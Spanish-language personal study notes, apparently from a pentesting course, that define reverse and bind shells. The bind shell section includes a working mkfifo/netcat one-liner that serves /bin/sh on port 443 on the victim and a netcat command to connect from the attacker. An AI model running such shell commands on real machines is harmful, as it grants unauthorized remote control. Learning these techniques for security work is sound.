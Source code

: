 - **Reverse Shell** --> Reverse Shell Es un método que le da a un atacante la posibilidad de conectarse a un equipo remoto desde un equipo propio. Es decir, se crea una conexión desde el equipo comprometido hacia el equipo del atacante. Esto se consigue ejecutando un programa malintencionado o una orden específica en el equipo remoto que establece la conexión inversa hacia el equipo del atacante, permitiéndole asumir el control del equipo remoto.

-------------------------------------

- **Bind Shell** --> Esta técnica es la inversa de la Reverse Shell, ya que en vez de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante espera en un puerto específico y la máquina comprometida recibe la conexión entrante en ese puerto. El atacante entonces tiene acceso por terminal a la máquina comprometida, lo que le permite asumir el control de la misma.

Por ejemplo, desde la máquina víctima nos pondremos en escucha con netcat esperando una conexión:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 443 > /tmp/f
```
![[Mis apuntes/ANEXOS/Pasted image 20230726104050.png]]
Y desde la máquina atacante nos conectaremos:
```bash
nc 192.168.0.44 443
```
![[Mis apuntes/ANEXOS/Pasted image 20230726104103.png]]